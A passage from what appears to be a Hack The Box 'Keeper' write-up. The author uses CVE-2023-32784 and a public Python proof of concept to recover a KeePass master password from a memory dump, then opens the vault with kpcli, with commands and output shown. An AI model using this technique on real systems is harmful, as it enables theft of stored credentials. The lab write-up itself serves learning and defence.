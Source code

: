 This dump file can be opened from `Ghidra`, but I did not find anything interesting from there. I also opened it using `radare2`, but I was unable to get a stack trace neither reading the heap. I also tried to get the strings from the dump file to do a dictionary attack, but it seems there are too many possibilities:
```
$strings KeePassDumpFull.dmp | wc -l
1988198
```
While I was searching what I could do with this dump file, I found [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) that says that in versions 2.x before 2.54, it is possible to recover the master password from a memory dump. I found an [exploit in Python](https://github.com/CMEPW/keepass-dump-masterkey) and get these possibilities from the master password. Before using it, I should check the version of KeePass is vulnerable to the exploit. I do not know if my method is correct but, by looking at the strings in the dump file, the version seems to be 2.53.1, so it is vulnerable to the exploit:
```
$strings KeePassDumpFull.dmp | grep "2\.5"
2.53.1.0
				<bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
					newVersion="2.53.1.20815" />
				<bindingRedirect oldVersion="2.0.9.0-2.53.1.0"
					newVersion="2.53.1.20815" />
*<.wZ@2;/-??-?0;.PX\SSSSW02.5EA
2.5.29.10
2.5.29.19
```
Let's use it:
```
$python3 ~/github/keepass-dump-masterkey/poc.py KeePassDumpFull.dmp 
2023-09-25 19:37:20,758 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
Well, I could do a bruteforce attack as suggested in the GitHub page, but it seems to be Danish and searching with `●Adgr●d med flode` on Google let me find `rødgrød med fløde` which is a Danish dish. I can now read the database:
```
$kpcli --kdb ~/Documents/htb/machines/keeper/evidence/data/passcodes.kdbx 
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```
I can now look from some interesting data:
```
kpcli:/> ls
=== Groups ===
passcodes/
kpcli:/> cd passcodes/
kpcli:/passcodes> ls
=== Groups ===
```